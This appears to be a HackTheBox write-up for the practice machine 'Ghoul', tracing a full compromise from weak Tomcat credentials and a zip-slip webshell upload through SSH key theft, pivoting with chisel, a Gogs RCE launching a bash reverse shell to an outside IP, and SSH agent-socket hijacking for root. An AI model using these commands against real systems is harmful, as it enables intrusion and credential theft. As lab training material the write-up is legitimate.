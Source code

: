 ```yaml
---
title: "HackTheBox - WriteUp 12"
date: 2019-07-08T13:16:37+08:00
description: "HackTheBox 练手"
featuredImage: "https://alicdn.kmahyyg.xyz/asset_files/aether/cat_tech.webp"
categories: ["tech"]
draft: false
displayInMenu: false
displayInList: true
dropCap: false
---
```


# Ghoul 

Initial Scan: 22 Port for SSH, 2222 Port for SSH(Inaccessible from outside), 80 (Apache), 8080 (Tomcat 7.0.88 + Coyote).

## User

Tomcat has a CVE-2017-12617, however, it only works before 7.0.81, so useless.

Access Port 8080, using a weak password as your credentials: `admin:admin`, After that, you should go through the whole page and click each button you can click to get the information. Here, as you know, a Tomcat means Java Web Application. After you click the right button of the banner, you will see a ZIP upload form.

Check here before continue: https://snyk.io/research/zip-slip-vulnerability

so find a place in `/var/www/html` (default directory of webroot with Apache), and place your PHP trojan here, `zip tstsh.zip ../../../../../../../var/www/html/trjyg7.php`, zip will allow this absolute to be put into an archive file. Then upload to the site an access it via port 80 with `http://10.10.10.101/trjyg7.php`.

In your webshell, download the following files:

- /var/backups/backups/*.backup 
- /var/www/html/secret.php

The files in first, is SSH Private keys with passphrase. The second file is gonna tell you the passphrase as `ILoveTouka`.

After this step, you've already got user access with `/home/kaneki/user.txt`.

Check the Tomcat config, you'll find a commented credentials: `admin:test@aogiri123`.

Check the other two private keys, you just get the info that kaneki is the administrator here.

## Root

### Internal network scanning

Clone this repo as part of your toolsets: https://github.com/andrew-d/static-binaries

Upload nmap to the box, scan the box `Aogori 172.20.0.10(22, 2222 For SSH, 80 For HTTP, 8080 For Tomcat)` in a /24, you'll find that you're in a Docker container. Found another machine called `kaneki-pc 172.20.0.150+172.18.0.200 (22 For SSH)`, then nmap again found `172.18.0.2(22 For SSH + 3000 For Gogs)`.

Login into kaneki-pc with kaneki_pub using the same private key and passphrase. Inside the home, `/home/kaneki_pub/to-do.txt` tells you git username `AogiriTest`, password is the one we just found `test@aogiri123`, PLEASE KEEP IN MIND: THE USERNAME IS CASE-SENSETIVE HERE!

### Pivoting to GOGS

Go here to build a tunnel:  https://github.com/jpillora/chisel

`./chisel client 10.10.16.118:23033 R:6672:172.18.0.2:3000` on `kaneki-pc`,
`./chisel server -p 23033 --reverse -v` on your local machine.

You have this forward chain, access `localhost:6672`, you should can access gogs with http.

#### What if SSH?

`ssh -i kaneki.backup -L 4455:localhost:23011 kaneki@10.10.10.101` -> `ssh -L 23011:localhost:23111 kaneki_pub@172.20.0.150` -> `ssh -L 23111:172.18.0.2:3000 kaneki_pub@127.0.0.1`  That works perfectly!

So the whole procedure is: `10.10.16.118:4455 -> 10.10.10.101:23011 -> 172.20.0.150:23111 -> 172.18.0.2:3000`

Check here for reference: https://superuser.com/questions/96489/an-ssh-tunnel-via-multiple-hops

### GOGS RCE

There's 2 CVE here, 2018-18925(Fixed in 0.11.79), 2018-20303(Fixed in 0.11.86). The installed version is 0.11.66.0916.

Clone this repo: https://github.com/TheZ3ro/gogsownz

Run `nc -lvp 44044` then `python3 gogsownz.py http://localhost:4455/ -n i_like_gogits -C "AogiriTest:test@aogiri123" --rce "/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.12.168/44044 0>&1'"`, you will get a reverse shell as git user.

Since `git` shell is `/bin/bash`, you just need to run LinEnum here. Check the `s6-supervise` and `s6-svscan`, you will learn it use `gosu` to run service on root.

Run a web server on kaneki-pc with webroot `~/.ssh` then directly `wget http://172.18.0.200:8080/authorized_keys` then disconnect the reverse shell and change to SSH shell with `ssh git@172.18.0.2` Then `gosu 0:0 /bin/bash`, you have the root of the GOGS docker. Download the files in the home, a `aogori-chat.7z` and `session.sh`.

Unarchive this 7-zip file, `grep -n password ./*`, you will find a password. But it's a git repository, and from `git log` you can see someone may mistakenly commits the high-privileged password. But it is `git reset --hard` -ed, so `git show ORIG_HEAD`, you will get a password: `7^Grc%C\7xEQ?tb4`, use this password to `su root` on `kaneki-pc`. It works.

Reference:  https://stackoverflow.com/questions/964876/head-and-orig-head-in-git

## Get actual root

Reference:  http://blog.7elements.co.uk/2012/04/ssh-agent-abusing-trust-part-1.html?m=1

On `kaneki-pc`, after `su root` you will find `/root/root.txt` which tells you progress is still not 100% XD. Run `pspy64 -f -r /tmp` with root permission, and wait for about 5 mins. You will notice a process: `ssh -p2222 -t root@172.18.0.1 ./log.sh` and with a file created like that `/tmp/ssh-blahblah/agent.1234`. So save the below as a script file. You only have 50 seconds here each round.

My script attached here:

```bash
#!/bin/bash

SOCKKEY=$1
SOCKPID=$2

export SSH_AUTH_SOCK=/tmp/ssh-$SOCKKEY/agent.$SOCKPID
ssh -p2222 root@172.18.0.1
```

Then after you get the notification again, run `./runroot.sh blahblah 1234`, you will get a SSH connection to physical host of the machine. There's a real `/root/root.txt`.

> This process can be automated if you edit your `/etc/ssh/ssh_config`, 
> Works like that:

```
Host *
  ControlPath /tmp/%r@%h:%p
  ControlMaster auto
  ControlPersist Yes
```

> Then: `ssh -O check -S /tmp/root\@172.18.0.1\:2222 %h`, 
> Then: `ssh -S /tmp/root\@172.18.0.1\:2222 %h`, 
> You will have the session.

I personally prefer the scripting way instead of editing config...

(END)

